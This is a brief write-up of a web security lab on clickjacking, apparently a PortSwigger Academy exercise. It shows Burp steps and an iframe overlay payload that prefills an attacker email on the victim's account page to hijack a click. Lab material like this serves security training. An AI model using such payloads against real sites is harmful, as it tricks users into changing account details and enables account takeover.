 # Some cases of Clickjacking

## 1. Clickjacking with form input data prefilled from a URL parameter

Log on to the account with `username = wiener` , `password = peter`

Change the email into:  `ian@hacker.com`

Using Burp, the Proxy tab proceeds to search for the `my-account/change-email` section. Then `Send to repeater`.

In the repeater, when sending with the `POST` method, the response side returns
a result of `302 Found`. Therefore, we proceed to change the `POST` method to `GET` and send back => Return that found `ian@hacker.com`

Go back to the website and click on `Go to exploit server` to proceed with the change 
structure the body and occupy the server with the following information:

`<style>

   iframe {
        position:relative;
        width:$width_value;
        height: $height_value;
        opacity: $opacity;
        z-index: 2;
    }
    div {
        position:absolute;
        top:$top_value;
        left:$side_value;
        z-index: 1;
    }  
    
</style>
<div> Test me </div>
<iframe src="YOUR-LAB-ID.web-security-academy.net/my-account?email=hacker@attacker-website.com"></iframe>`




    
